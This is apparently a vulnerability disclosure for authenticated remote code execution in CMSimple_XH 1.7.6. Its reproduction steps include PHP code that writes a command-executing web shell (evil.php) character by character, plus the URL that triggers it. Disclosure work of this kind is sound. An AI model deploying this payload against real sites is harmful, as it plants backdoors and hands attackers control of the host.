



# RCE at cmsimple-xh 1.7.6
Similarly to https://github.com/advisories/GHSA-56jv-hmch-qm6c , it is possible to upload a PHP payload to execute commands on the host. It requires being **Authenticated**.

Version: CMSimple_XH 1.7.6

## Steps to reproduce:
1. Login as Admin
2. Move to `/?file=content`
3. Add the following code into **Content file**:
```php
file_put_contents('evil.php', '');
$fileHandle = fopen('evil.php', 'a');
fwrite($fileHandle, '<');
fwrite($fileHandle, '?');
fwrite($fileHandle, 'p');
fwrite($fileHandle, 'h');
fwrite($fileHandle, 'p');
fwrite($fileHandle, ' ');
fwrite($fileHandle, 'system');
fwrite($fileHandle, '(');
fwrite($fileHandle, '$');
fwrite($fileHandle, '_GET[');
fwrite($fileHandle, '"cmd"]');
fwrite($fileHandle, ');');
fwrite($fileHandle, '?');
fwrite($fileHandle, '>');
fclose($fileHandle);
```
4. Save and refresh
5. Move to `/evil.php?cmd=id`

## Screenshots:





